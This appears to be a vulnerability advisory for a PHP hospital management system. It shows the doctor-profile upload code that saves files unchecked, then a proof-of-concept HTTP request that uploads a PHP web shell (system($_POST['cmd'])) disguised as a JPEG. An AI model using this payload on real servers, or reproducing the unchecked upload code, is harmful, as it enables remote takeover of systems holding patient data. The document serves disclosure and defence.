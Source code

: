 # Remote Code Execution via Arbitrary File Upload in Hospital Management System

## Vendor Homepage:
> https://codeastro.com/hospital-management-system-in-php-with-source-code-adv/


## Code
``` php

		if(isset($_POST['update_profile']))
		{
			$doc_fname=$_POST['doc_fname'];
			$doc_lname=$_POST['doc_lname'];
			$doc_id=$_SESSION['doc_id'];
            $doc_email=$_POST['doc_email'];
           // $doc_pwd=sha1(md5($_POST['doc_pwd']));
            $doc_dpic=$_FILES["doc_dpic"]["name"];
		    move_uploaded_file($_FILES["doc_dpic"]["tmp_name"],"assets/images/users/".$_FILES["doc_dpic"]["name"]);

            //sql to insert captured values
			$query="UPDATE his_docs SET doc_fname=?, doc_lname=?,  doc_email=?, doc_dpic=? WHERE doc_id = ?";
			$stmt = $mysqli->prepare($query);
			$rc=$stmt->bind_param('ssssi', $doc_fname, $doc_lname, $doc_email, $doc_dpic, $doc_id);
			$stmt->execute();

```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /Hospital-PHP/backend/doc/his_doc_update-account.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------284657390227237097933480442506
Content-Length: 764
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Hospital-PHP/backend/doc/his_doc_update-account.php
Cookie: PHPSESSID=qr4c4tv56jj7l2j77ju7tpu9h8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------284657390227237097933480442506

Content-Disposition: form-data; name="doc_fname"

-----------------------------284657390227237097933480442506

Content-Disposition: form-data; name="doc_lname"
-----------------------------284657390227237097933480442506

Content-Disposition: form-data; name="doc_email"

-----------------------------284657390227237097933480442506
Content-Disposition: form-data; name="doc_dpic"; filename="x2.php"
Content-Type: image/jpeg

<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();

-----------------------------284657390227237097933480442506

Content-Disposition: form-data; name="update_profile"

-----------------------------284657390227237097933480442506--
```

## Screenshot
![image](https://github.com/user-attachments/assets/5c2cc01c-4c31-42b2-a36b-4519e324c153)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
